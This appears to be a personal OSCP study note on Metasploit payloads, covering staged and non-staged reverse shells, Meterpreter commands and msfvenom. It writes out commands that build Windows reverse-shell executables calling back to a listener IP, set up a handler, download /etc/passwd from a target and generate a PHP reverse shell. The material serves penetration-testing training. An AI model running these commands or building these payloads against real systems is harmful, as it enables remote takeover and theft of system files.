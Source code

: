```yaml
---
aliases:
  - Metasploit Payloads
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - metasploit
  - payload
author: Mehdi N Tehrani
creat_date: 2024-01-04
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Payloads
#payload #payloads
- Get all payloads
```msfconsole
show payloads
```
## staged
#staged
First a smaller payload is sent, a second one is retrieved after to get a shell.
*Less stable*, but *smaller*.
example:
```msfconsole
payload/linux/x64/shell/reverse_tcp
```
## non-staged
#non_staged
The whole payload in one go.
*More stable*, but *larger*.
example:
```msfconsole
payload/linux/x64/shell_reverse_tcp
```

## meterpreter
#meterpreter 
A multi-function payload that can be dynamically extended at run-time. The payload resides entirely in memory on the target and its communication is *encrypted by default*. Meterpreter offers capabilities that are especially useful in the post-exploitation phase and exists for various operating systems such as *Windows*, *Linux*, *macOS*, *Android*, and more.

```meterpreter
help
sysinfo
getuid
shell
download /etc/passwd
upload /home/kali/file /tmp/
ls /tmp
```

- commands reflecting the local machine
```meterpreter
lpwd
lcd /home/kali
lcat /home/kali/file
```

### meterpreter reverse https
#reverse_http #reverse_https
by default if not set, meterpreter uses `/`
using LURI, we can use the same listener for multiple channels based on the path used
```msfconsole
set luri path1
```

# Executable Payloads
#executable #msfvenom 
## msfvenom
[msfvenom - how to use](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- list payloads #list
```sh
msfvenom -l payloads

msfvenom -l payloads --platform <windows/linux> --arch <x64/x86>
```
- Build payload #build
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe

msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe 
```

## meterpreter Listener / Handler
#multi_handler
https://www.rapid7.com/db/modules/exploit/multi/handler/
```msfconsole
use multi/handler
set payload windows/x64/shell/reverse_tcp

```


## PHP reverse shell
#php 
```sh
msfvenom -p php/reverse_php -o <file>.php lhost=<lhost> lport=<lport>
```
